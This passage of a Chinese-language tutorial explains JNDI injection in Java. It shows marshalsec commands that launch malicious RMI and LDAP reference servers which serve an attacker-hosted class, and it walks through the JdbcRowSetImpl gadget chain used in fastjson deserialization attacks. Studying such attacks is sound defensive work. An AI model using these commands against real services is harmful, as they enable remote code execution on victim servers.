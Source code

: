 装有java8，使用`mvn clean package -DskipTests`编译

#rmi服务器，rmi服务起在8088 恶意class在http://ip:8080/文件夹/#ExportObject 
#不加8088端口号 默认是1099
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://ip:8080/文件夹/#ExportObject 8088

#rmi服务器，rmi服务起在8088 恶意class在http://ip:8080/文件夹/#ExportObject 
#不加8088端口号 默认是1389
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://ip:8080/文件夹/#ExportObject 8088

同时恶意class文件的web服务还需要自己去起。

## com.sun.rowset.JdbcRowSetImpl 利用链

在回到我们之前的攻击目标服务端（也就是rmi服务客户端）

目前我们利用jndi注入需要满足2个条件：  
我们需要服务端存在以下代码，uri可控

	String uri = "rmi://127.0.0.1:1099/aa";
	    Context ctx = new InitialContext();
	    ctx.lookup(uri);

并且存在漏洞版本的java环境（目前我们知道1.8u191是不可以的）

我们先来扩展第一个代码限制的问题，就有点像在commons-collection反序列化一文寻找readobject复写点一样。  
总是有很多机缘巧合。

**com.sun.rowset.JdbcRowSetImpl**类：是在fastjson反序列化漏洞中触发jndi注入的一环，此处也算是一个引子，之后将详细分析fastjson反序列化的原因。

`JdbcRowSetImpl.java`

	public void setAutoCommit(boolean var1) throws SQLException {
	    if (this.conn != null) {
		this.conn.setAutoCommit(var1);
	    } else {
		this.conn = this.connect();//进入此处
		this.conn.setAutoCommit(var1);
	    }

	}

`JdbcRowSetImpl.java`

	protected Connection connect() throws SQLException {
		if (this.conn != null) {
		    return this.conn;
		} else if (this.getDataSourceName() != null) {//我们需要一个我们可控的getDataSourceName
		    try {
		        //下面两句是完美的漏洞触发代码
		        InitialContext var1 = new InitialContext();
		        DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName());//可控的jndi注入点
		        return this.getUsername() != null && !this.getUsername().equals("") ? var2.getConnection(this.getUsername(), this.getPassword()) : var2.getConnection();
		    } catch (NamingException var3) {
		        throw new SQLException(this.resBundle.handleGetObject("jdbcrowsetimpl.connect").toString());
		    }
		} else {
		    return this.getUrl() != null ? DriverManager.getConnection(this.getUrl(), this.getUsername(), this.getPassword()) : null;
		}
	    }
